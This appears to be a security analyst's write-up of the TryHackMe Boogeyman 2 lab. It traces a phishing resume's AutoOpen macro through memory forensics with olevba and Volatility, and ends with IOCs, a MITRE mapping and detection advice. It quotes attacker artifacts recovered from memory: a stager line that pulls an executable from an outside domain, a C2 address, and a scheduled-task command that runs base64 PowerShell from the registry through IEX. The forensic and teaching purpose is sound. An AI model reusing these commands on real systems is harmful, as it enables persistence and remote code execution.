










# Boogeyman 2 - Malicious Macro Analysis and Memory Forensics

## Environment

- **Platform:** TryHackMe - SOC Level 1 Capstone Challenges
- **Room:** Boogeyman 2
- **OS:** Ubuntu (analysis VM)
- **Artifacts:** Phishing email (`.eml`), malicious Word document (`Resume_WesleyTaylor.doc`), memory dump (`WKSTN-2961.raw`)

## Lab Objective

Maxine Beck, a Human Resources Specialist at Quick Logistics LLC, received a spearphishing email containing a malicious resume attachment. Opening the document triggered a macro that staged a multi-step infection, ultimately establishing a C2 channel and implanting a persistence mechanism. My objective was to trace the full execution chain from the initial phishing email through to the persistence command, using macro analysis and memory forensics as the primary investigative techniques.

## Tools and Technologies

- **olevba** (oletools suite) - VBA macro extraction from Office documents
- **Volatility 3** - memory forensics framework
- **strings** - string extraction from binary and raw memory files
- **grep** - pattern matching for IOC extraction

## Phase 1 - Spearphishing and Initial Access

I started with the phishing email. On August 20, 2023, `westaylor23@outlook.com` sent a job application email to `maxine.beck@quicklogisticsorg.onmicrosoft.com`, posing as a Computer Science graduate applying for a Junior IT Analyst position. The email included a Microsoft Word attachment named `Resume_WesleyTaylor.doc`.


The social engineering here is straightforward but effective against an HR target. The email body is professionally written, the pretext is entirely believable for the role, and attaching a `.doc` rather than a `.docx` is deliberate. Older binary Office formats are more likely to have macro support enabled and less likely to be blocked by mail filters than their modern counterparts.

## Phase 2 - Macro Analysis with olevba

With the attachment flagged as suspicious, my first step was to extract and inspect any embedded macros without executing the file. `olevba` from the oletools suite handles this:

```bash
olevba Resume_WesleyTaylor.doc
```



The output surfaced a `Sub AutoOpen()` macro stored in the `NewMacros.bas` module. `AutoOpen` is a trigger that fires automatically when the document is opened, requiring no further interaction from the victim.

The macro logic breaks down as follows:

The macro uses `Microsoft.XMLHTTP` to make an HTTP GET request to the attacker-controlled domain, downloading a file disguised with a `.png` extension. The `Adodb.Stream` object writes the response body as binary directly to disk at `C:\ProgramData\update.js`. The `.png` extension is deliberate misdirection - the file saved to disk is a JavaScript file. Once written, it is immediately executed via `WScript.Shell` calling `wscript.exe`.

The olevba IOC table at the bottom of the output flags every suspicious indicator automatically: `AutoExec`, `Microsoft.XMLHTTP`, `Adodb.Stream`, `WScript.Shell`, `CreateObject`, and `Exec`. In a real triage workflow, I read this table first - it gives a risk summary before manually parsing the macro code.

**Stage 2 payload URL:** `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png`
**Dropped as:** `C:\ProgramData\update.js`
**Executed by:** `wscript.exe`

## Phase 3 - Memory Forensics with Volatility

With the macro establishing what happened at the document level, I pivoted to the memory dump to trace what the JavaScript payload did after execution. Volatility 3 was the framework used throughout this phase. Here I am using the artifact: `WKSTN-2961.raw`, a memory dump of the victim's workstation. 

Quick shoutout to mention that Volatility works with plugins that have to be chosen according to the situation, here I'll use `windows.pstree`, `windows.cmdline`, `windows.netscan` and `windows.memmap`.

### Process Tree - windows.pstree

The first plugin I ran was `windows.pstree`. It reconstructs the parent-child process hierarchy from memory structures and gives the full execution chain at a glance:

```bash
vol -f WKSTN-2961.raw windows.pstree
```





The chain in the second screenshot told the complete story:

```
OUTLOOK.EXE (PID 1440)
  └── WINWORD.EXE (PID 1124)
        └── WINWORD.EXE (PID 4336)
              └── wscript.exe (PID 4260)
                    └── updater.exe (PID 6216)
```

Outlook opened the document, which spawned Word. Word executed the `AutoOpen` macro, which spawned a second Word instance that then launched `wscript.exe` to run `update.js`. `wscript.exe` in turn downloaded and executed a binary named `updater.exe`, which is the C2 implant. The process lineage alone confirmed malicious activity - `wscript.exe` has no legitimate business being a child of `WINWORD.EXE`.

### Command Line Arguments - windows.cmdline

I then ran the plugin `windows.cmdline` to retrieve the full command line string used to launch each process. This added path context and argument detail that the process tree alone does not provide:

```bash
vol -f WKSTN-2961.raw windows.cmdline
```





The above output confirmed several things at once. Outlook was launched with the `.eml` file as its argument, confirming the delivery vector. Word (PID 1124) opened the document from its INetCache path - `C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc` - which is where Outlook cached the attachment before handing it to Word. This is the full file path of the malicious attachment in memory, a detail the email artifact alone cannot provide. `wscript.exe` (PID 4260) shows `wscript.exe C:\ProgramData\update.js` as its command line, and `updater.exe` (PID 6216) shows its full path as `C:\Windows\Tasks\updater.exe`.

Placing a binary in `C:\Windows\Tasks\` is a common evasion technique. It blends with the Task Scheduler directory and is less conspicuous than dropping an executable in a user profile or temp directory.

### Network Connections - windows.netscan

With the C2 binary identified, I used the plugin `windows.netscan` to reconstruct network connection records from memory. Volatility can recover these even after a connection has closed, because the underlying memory structures persist until overwritten:

```bash
vol -f WKSTN-2961.raw windows.netscan
```



`updater.exe` (PID 6216) showed a TCPv4 connection from the victim host `10.10.49.181` to `128.199.95.189` on port `8080`, state `CLOSED`. The CLOSED state was expected - the memory dump was taken after the C2 callback had already occurred. The record surviving in memory is exactly why memory forensics is valuable: artifacts that disappear from the OS surface remain recoverable from RAM.

**C2:** `128.199.95.189:8080`

### Process Memory Dump - windows.memmap

To recover the URL used to download `updater.exe`, I started by dumping the memory of `wscript.exe` (PID 4260) and searching it for strings:

```bash
vol -f WKSTN-2961.raw windows.memmap --dump --pid 4260
```



```bash
strings pid.4260.dmp | grep "files.boogeymanisback"
```



The domain appeared but the full URL did not. By the time the memory dump was captured, `wscript.exe` had already completed execution. The JS ran, downloaded the binary, launched it, and exited. Its memory pages were partially reclaimed or overwritten, leaving only fragments of the domain string without the path component.

## Phase 4 - String Analysis on the Raw Memory Image

When the process-level dump gave incomplete results, I escalated to searching the full raw memory image. The entire system RAM at capture time is in `WKSTN-2961.raw`, including memory belonging to other processes, the kernel, and cached file content:

```bash
strings WKSTN-2961.raw | grep "files.boogeymanisback.lol"
```



The full image search surfaced `var url = "https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe"` - the literal source code of `update.js` still resident in system memory. The JS file content had been paged into a memory region belonging to a different process or cached by the OS file system layer, which is why it was invisible in the wscript-specific dump but visible in the full image.

This is a key distinction in memory forensics practice: process dumps are scoped to one process's virtual address space. The raw image has no such scope. When a specific process's memory gives incomplete results, searching the full dump is the correct next step before concluding the data is gone.

**Stage 3 payload URL:** `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe`

## Phase 5 - Persistence via Scheduled Task

With C2 established, I searched the raw image for evidence of the persistence mechanism using `schtasks` as the grep pattern:

```bash
strings WKSTN-2961.raw | grep "schtasks"
```



The full scheduled task command recovered from memory:

```
schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\"'
```

This is a fileless persistence technique. Rather than placing an executable on disk and scheduling it directly, the attacker stored a base64-encoded PowerShell payload in the registry at `HKCU:\Software\Microsoft\Windows\CurrentVersion` under the key `debug`. The scheduled task fires daily at 09:00, reads the registry value, decodes it from base64 using `[Convert]::FromBase64String`, and executes it in memory via `IEX` (Invoke-Expression). Nothing related to the stage 4 payload ever touches disk at execution time.

The strings output also contained a C2 framework log message: "Schtasks persistence established using listener http stored in HKCU:\Software\Microsoft\Windows\CurrentVersion\debug with Updater daily trigger at 09:00." This kind of operational log surviving in the memory dump is a reminder that even well-designed C2 frameworks leave artifacts in RAM.

## Attack Progression

```
[2023-08-20 18:19] westaylor23@outlook.com sends phishing email to maxine.beck
                   Attachment: Resume_WesleyTaylor.doc

[2023-08-21 14:09] Maxine opens the document via Outlook
                   OUTLOOK.EXE (1440) -> WINWORD.EXE (1124)
                   Document cached at INetCache path

[2023-08-21 14:12] AutoOpen macro executes
                   Downloads update.js from files.boogeymanisback.lol
                   Saves to C:\ProgramData\update.js
                   WINWORD.EXE (1124) -> wscript.exe (4260)

[2023-08-21 14:12] update.js executes
                   Downloads update.exe from files.boogeymanisback.lol
                   Saves to C:\Windows\Tasks\updater.exe
                   wscript.exe (4260) -> updater.exe (6216)

[2023-08-21 14:12] C2 connection established
                   updater.exe -> 128.199.95.189:8080

[2023-08-21 14:15] Scheduled task implanted
                   Task name: Updater, daily at 09:00
                   Payload stored in registry: HKCU\Software\Microsoft\Windows\CurrentVersion\debug
                   Execution: PowerShell IEX from base64-decoded registry value (fileless)
```

## IOC Summary

| Type | Value |
|------|-------|
| Email (attacker) | westaylor23@outlook.com |
| Email (victim) | maxine.beck@quicklogisticsorg.onmicrosoft.com |
| File | Resume_WesleyTaylor.doc |
| Hash (MD5) | 52c4384a0b9e248b95804352ebec6c5b |
| URL | https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png |
| URL | https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe |
| Domain | files.boogeymanisback.lol |
| File | C:\ProgramData\update.js |
| File | C:\Windows\Tasks\updater.exe |
| IP address | 128.199.95.189 |
| Path | C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc |
| Registry key | HKCU\Software\Microsoft\Windows\CurrentVersion\debug |

## MITRE ATT&CK Mapping

| Technique ID | Name | Detail |
|---|---|---|
| T1566.001 | Spearphishing Attachment | Malicious .doc delivered via targeted email to HR |
| T1204.002 | Malicious File | Victim opened the document triggering AutoOpen |
| T1059.005 | Visual Basic | VBA macro used for initial execution |
| T1059.007 | JavaScript | update.js used as stage 2 stager |
| T1059.001 | PowerShell | IEX used for fileless payload execution at persistence trigger |
| T1105 | Ingress Tool Transfer | updater.exe downloaded via XMLHTTP and update.js |
| T1071.001 | Web Protocols | C2 over HTTP on port 8080 |
| T1053.005 | Scheduled Task | Daily task named Updater for persistence |
| T1027 | Obfuscated Files or Information | Base64-encoded payload stored in registry |
| T1112 | Modify Registry | Payload stored in HKCU run key path |

## SOC Implications

The most important takeaway from this investigation is the value of layering analytical techniques in sequence rather than relying on any single tool. olevba gave a clear picture of stage 1 execution, but it has no visibility into what happened after `wscript.exe` took over. Volatility filled that gap by reconstructing the process tree, command line arguments, and network connections from memory. When Volatility's process-scoped dump hit its limit on the wscript memory extraction, raw image string analysis recovered what the process dump could not. No single tool covered the full chain - the investigation only completed when all three were used in sequence, each picking up where the previous one ran out of scope.

The fileless persistence technique used here represents a genuine detection gap for endpoint tools focused on file system activity. Nothing about the daily execution of the scheduled task writes a payload to disk. The PowerShell runs entirely in memory, reading its instructions from a registry key. Detection requires registry monitoring for writes to `HKCU\Software\Microsoft\Windows\CurrentVersion` with unusual key names, or behavioural alerting on PowerShell processes spawned by `schtasks.exe` that combine `IEX` with `[Convert]::FromBase64String` in the same command line. An EDR configured to alert on that pattern would catch this at execution time regardless of where the payload is stored.

The `.png` extension used for the JavaScript stage 2 payload is a deliberate content-type misdirection that content inspection at the proxy layer would catch. Verifying that files with image extensions actually contain image data - by inspecting file headers rather than trusting the extension - would have blocked the stage 2 download regardless of the macro executing successfully. Network controls that flag outbound connections to newly registered or low-reputation domains would have added a second layer. `boogeymanisback.lol` has no legitimate business purpose and would not survive scrutiny against a domain age check or a standard threat intelligence feed.

---

*TryHackMe - SOC Level 1 Capstone Challenges - Boogeyman 2*